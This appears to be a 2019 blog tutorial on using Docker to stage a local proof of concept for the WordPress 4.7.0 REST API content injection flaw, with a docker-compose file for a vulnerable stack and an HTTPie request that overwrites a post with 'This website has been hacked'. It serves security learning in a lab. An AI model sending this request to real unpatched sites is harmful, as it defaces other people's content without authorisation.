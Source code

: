 ```yaml
---
title: Creating a Quick PoC for an Exploit with Docker
author: minn
type: post
date: 2019-02-18T11:47:24+00:00
url: /2019/02/18/creating-a-quick-poc-exploit-with-docker/
categories:
  - General
tags:
  - docker
  - httpie
  - wordpress vulnerability

---
```

We will create a quick PoC for an exploit for a wordpress vulnerability. This is just to demonstrate the use of docker for PoC needs. I&#8217;ll be emphasizing more on the process than the vulnerability itself. For this demo, we will be exploiting an old content injection vulnerability. You can read about its technical details here, <https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html>.

In short, the exploit only requires to send a rest API call to the wordpress application. 

To stage the demo, we will:

  * Setup a container that runs vulnerable version of WordPress-4.7. We&#8217;ll create a wordpress/mysql stack with docker compose.
  * Make an HTTP POST request with a new content that overwrites the original post. I will use HTTPie tool. You may choose any tool you&#8217;re familiar with, eg: curl, Postman, Insomnia.

Pre-requisite:

  * You must have Docker already installed. Running the command &#8220;docker version&#8221; from CLI should return server version.
  * You have an HTTP client that can make json HTTP post. I already have HTTPie on my Mac. I installed with &#8220;brew install httpie&#8221;

Create a directory.

Save the following file as &#8216;docker-compose.yml&#8217;:

```yaml
version: '2'
services:
  wordpress:
    image: wordpress:4.7.0
    ports:
      - 8080:80
    environment:
      WORDPRESS_DB_PASSWORD: example
  
  mysql:
    image: mariadb
    environment:
      MYSQL_ROOT_PASSWORD: example
```

Within the same directory run the following command:

```bash
docker-compose up --force-recreate; docker-compose down -v
```

You should see Docker downloading images and spinning up the servers. Once finished you should be able to browse to http://localhost:8080 from your browser. Follow the instructions to finish the installation (by entering site name, username, password, fake email). Then you will see the admin dashboard. Go to Settings > Permalinks and choose the second option to enable pretty links. Open another browser window or new tab and browse to http://localhost:8080 again. You should see your blog and a Hello World post.

To start exploit, run the following command from the shell/terminal to overwrite the post content.

```bash
http -f POST localhost:8080/wp-json/wp/v2/posts/1/\?id=123abc \
   content:=\"This website has been hacked\"
```

Now browse the site again and observe the &#8220;Hello World&#8221; blog post content has changed.

To end the PoC, press Ctrl+C on the docker-compose terminal.